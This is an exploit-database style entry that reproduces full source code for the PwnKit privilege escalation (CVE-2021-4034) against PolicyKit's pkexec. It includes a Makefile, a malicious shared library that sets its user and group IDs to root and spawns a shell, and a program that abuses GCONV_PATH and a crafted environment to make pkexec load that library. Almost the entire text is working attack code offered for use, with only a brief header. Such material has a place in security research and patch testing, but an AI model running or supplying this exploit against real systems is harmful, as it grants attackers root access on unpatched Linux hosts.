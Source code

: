 # PolicyKit

# Exploit Title: PolicyKit-1 0.105-31 - Privilege Escalation
# Exploit Author: Lance Biggerstaff
# Original Author: ryaagard (https://github.com/ryaagard)
# Date: 27-01-2022
# Github Repo: https://github.com/ryaagard/CVE-2021-4034
# References: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

# Description: The exploit consists of three files `Makefile`, `evil-so.c` & `exploit.c`

##### Makefile #####

all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit

clean:
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so

#################

##### evil-so.c #####

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);

    execve("/bin/sh", NULL, NULL);
}

#################

##### exploit.c #####

#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };

    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);

    execve(BIN, argv, envp);

    return 0;
}

#################
